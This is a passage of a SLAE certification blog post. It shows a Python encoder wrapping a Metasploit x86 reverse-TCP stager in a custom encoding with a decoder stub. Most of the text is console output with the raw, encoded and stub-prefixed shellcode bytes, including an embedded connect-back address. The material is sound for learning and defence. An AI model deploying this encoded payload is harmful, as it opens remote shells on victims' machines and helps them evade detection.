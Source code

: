 Automating the creation of the shellcode
----------------------------------------

We don't need to manually add the encoded shellcode to the `.asm` file every time and re-compile from NASM. The python script has been modified to automatically prepend the decoder stub to the output shellcode so we can just use this in the test C program.

```
slemire@slae:~/slae32/assignment4$ ./encoder.py msf_met_reversetcp.txt 
[+] Shellcode not 4 bytes aligned, adding 1 \x90 bytes of padding...
[+] Original shellcode (len: 124): \x6a\x0a\x5e\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\xb0\x66\x89\xe1\xcd\x80\x97\x5b\x68\xac\x17\x0a\x28\x68\x02\x00\x11\x5c\x89\xe1\x6a\x66\x58\x50\x51\x57\x89\xe1\x43\xcd\x80\x85\xc0\x79\x19\x4e\x74\x3d\x68\xa2\x00\x00\x00\x58\x6a\x00\x6a\x05\x89\xe3\x31\xc9\xcd\x80\x85\xc0\x79\xbd\xeb\x27\xb2\x07\xb9\x00\x10\x00\x00\x89\xe3\xc1\xeb\x0c\xc1\xe3\x0c\xb0\x7d\xcd\x80\x85\xc0\x78\x10\x5b\x89\xe1\x99\xb6\x0c\xb0\x03\xcd\x80\x85\xc0\x78\x02\xff\xe1\xb8\x01\x00\x00\x00\xbb\x01\x00\x00\x00\xcd\x80\x90

[+] Encoded shellcode (len: 159): \x45\x74\x1b\x4f\x2f\x45\x16\xa6\xb2\x9e\x93\x91\xf9\xc0\xd0\x22\xc3\xab\x44\x92\xcf\x94\x58\x4f\x02\x94\x9e\x83\x38\xfc\x7c\x7c\x7e\x14\x54\x3a\xdb\xb3\x66\x2b\xd5\x85\x8d\xb3\xbf\xb6\x57\x3f\xe1\xe7\x39\xbc\xb9\xf4\x7a\x2f\x61\x36\x56\xef\x4f\xed\x27\x72\x3b\x9c\xc4\x9c\x9c\x9c\x5c\x59\x36\x5c\x36\x70\xb9\x41\x93\xf9\x17\xd7\x92\x97\xda\x95\xb2\x7e\x28\xec\x77\x77\xce\x70\xc5\xd3\x5a\xd3\xd3\xc3\x14\x18\xff\xd5\xf7\x7e\xce\x72\x9d\xbf\xe4\x61\x64\x29\x99\x67\x3c\x77\x1f\xa7\xa0\x16\x39\x41\x29\xf7\x3a\xf4\x47\xfb\x5c\x24\x9c\xd9\xdc\x3d\x85\xdc\xc2\x3f\x51\x51\x51\x51\x50\x77\x77\x77\x76\xcc\x6f\xff\xef\xa2\x6f\x90\x90\xaa\xaa

[+] Encoded shell in NASM format: 0x45,0x74,0x1b,0x4f,0x2f,0x45,0x16,0xa6,0xb2,0x9e,0x93,0x91,0xf9,0xc0,0xd0,0x22,0xc3,0xab,0x44,0x92,0xcf,0x94,0x58,0x4f,0x02,0x94,0x9e,0x83,0x38,0xfc,0x7c,0x7c,0x7e,0x14,0x54,0x3a,0xdb,0xb3,0x66,0x2b,0xd5,0x85,0x8d,0xb3,0xbf,0xb6,0x57,0x3f,0xe1,0xe7,0x39,0xbc,0xb9,0xf4,0x7a,0x2f,0x61,0x36,0x56,0xef,0x4f,0xed,0x27,0x72,0x3b,0x9c,0xc4,0x9c,0x9c,0x9c,0x5c,0x59,0x36,0x5c,0x36,0x70,0xb9,0x41,0x93,0xf9,0x17,0xd7,0x92,0x97,0xda,0x95,0xb2,0x7e,0x28,0xec,0x77,0x77,0xce,0x70,0xc5,0xd3,0x5a,0xd3,0xd3,0xc3,0x14,0x18,0xff,0xd5,0xf7,0x7e,0xce,0x72,0x9d,0xbf,0xe4,0x61,0x64,0x29,0x99,0x67,0x3c,0x77,0x1f,0xa7,0xa0,0x16,0x39,0x41,0x29,0xf7,0x3a,0xf4,0x47,0xfb,0x5c,0x24,0x9c,0xd9,0xdc,0x3d,0x85,0xdc,0xc2,0x3f,0x51,0x51,0x51,0x51,0x50,0x77,0x77,0x77,0x76,0xcc,0x6f,0xff,0xef,0xa2,0x6f,0x90,0x90,0xaa,0xaa

[+] Encoded shellcode /w decoder stub (len: 253): \xeb\x57\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x5e\xbf\x90\x90\xaa\xaa\x83\xec\x7f\x83\xec\x7f\x83\xec\x7f\x83\xec\x7f\x8a\x5c\x16\x1\x8a\x7c\x16\x2\x8a\x4c\x16\x3\x8a\x6c\x16\x4\x32\x1c\x16\x32\x3c\x16\x32\xc\x16\x32\x2c\x16\x88\x2c\x4\x88\x4c\x4\x1\x88\x7c\x4\x2\x88\x5c\x4\x3\x39\x7c\x16\x5\x74\xa\x42\x42\x42\x42\x42\x83\xc0\x4\x75\xc5\xff\xe4\xe8\xa4\xff\xff\xff\x45\x74\x1b\x4f\x2f\x45\x16\xa6\xb2\x9e\x93\x91\xf9\xc0\xd0\x22\xc3\xab\x44\x92\xcf\x94\x58\x4f\x02\x94\x9e\x83\x38\xfc\x7c\x7c\x7e\x14\x54\x3a\xdb\xb3\x66\x2b\xd5\x85\x8d\xb3\xbf\xb6\x57\x3f\xe1\xe7\x39\xbc\xb9\xf4\x7a\x2f\x61\x36\x56\xef\x4f\xed\x27\x72\x3b\x9c\xc4\x9c\x9c\x9c\x5c\x59\x36\x5c\x36\x70\xb9\x41\x93\xf9\x17\xd7\x92\x97\xda\x95\xb2\x7e\x28\xec\x77\x77\xce\x70\xc5\xd3\x5a\xd3\xd3\xc3\x14\x18\xff\xd5\xf7\x7e\xce\x72\x9d\xbf\xe4\x61\x64\x29\x99\x67\x3c\x77\x1f\xa7\xa0\x16\x39\x41\x29\xf7\x3a\xf4\x47\xfb\x5c\x24\x9c\xd9\xdc\x3d\x85\xdc\xc2\x3f\x51\x51\x51\x51\x50\x77\x77\x77\x76\xcc\x6f\xff\xef\xa2\x6f\x90\x90\xaa\xaa
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

[http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/](http://securitytube-training.com/online-courses/securitytube-linux-assembly-expert/)

Student ID: SLAE-1236

All source files can be found on GitHub at [https://github.com/slemire/slae32](https://github.com/slemire/slae32)